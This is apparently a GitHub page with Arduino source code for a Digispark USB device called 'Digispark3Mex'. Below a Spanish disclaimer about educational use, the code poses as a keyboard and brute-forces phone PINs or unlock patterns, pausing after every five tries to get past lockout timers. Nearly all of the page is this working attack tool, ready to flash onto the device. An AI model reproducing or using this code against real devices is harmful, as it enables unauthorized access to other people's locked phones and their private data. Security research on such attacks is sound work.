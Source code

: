 Renuncia
Se proporcionan ejemplos de código con fines educativos. Las defensas adecuadas solo se pueden construir investigando las técnicas de ataque disponibles para los actores maliciosos. El uso de este código contra los sistemas de destino sin permiso previo es ilegal en la mayoría de las jurisdicciones. Los autores no son responsables de ningún daño derivado del mal uso de esta información o código.

# Digispark3Mex By: HellPineapple

#include "DigiKeyboard.h"

// Key mapping for digits 0-9
int num[] = {39, 30, 31, 32, 33, 34, 35, 36, 37, 38};

// Key mapping for pattern nodes
int patternNodes[] = {44, 45, 46, 47, 48, 49, 50, 51, 52}; // Example

// Configuration
const int PIN_LENGTH = 4; // Change to 6 for a 6-digit PIN
bool usePattern = false; // Change to true to use pattern unlock

// Variables for PIN
int digits[6] = {0, 0, 0, 0, 0, 0};

// Variables for pattern
const int PATTERN_LENGTH = 4; // Length of the unlock pattern
int pattern[9] = {0, 0, 0, 0, 0, 0, 0, 0, 0}; // Stores the pattern sequence

const int ENTER_KEY = 40;
const int DELAY_TIME = 31000;

int attemptCount = 0;

void setup() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  delay(3000);
}

void sendKeys(int* keyMap, int* values, int length) {
  for (int i = 0; i < length; i++) {
    DigiKeyboard.sendKeyStroke(keyMap[values[i]]);
  }
  DigiKeyboard.sendKeyStroke(ENTER_KEY); // Enter
  delay(1000);
}

void incrementValues(int* values, int length, int max) {
  for (int i = length - 1; i >= 0; i--) {
    values[i]++;
    if (values[i] < max) break;
    values[i] = 0;
  }
}

void loop() {
  if (attemptCount == 5) {
    digitalWrite(1, HIGH); // LED on to indicate delay
    DigiKeyboard.sendKeyStroke(ENTER_KEY); // Enter to dismiss any popup
    delay(DELAY_TIME);
    attemptCount = 0;
    digitalWrite(1, LOW); // LED off
  }

  if (usePattern) {
    sendKeys(patternNodes, pattern, PATTERN_LENGTH);
    incrementValues(pattern, PATTERN_LENGTH, 9);
  } else {
    sendKeys(num, digits, PIN_LENGTH);
    incrementValues(digits, PIN_LENGTH, 10);
  }

  attemptCount++;
}
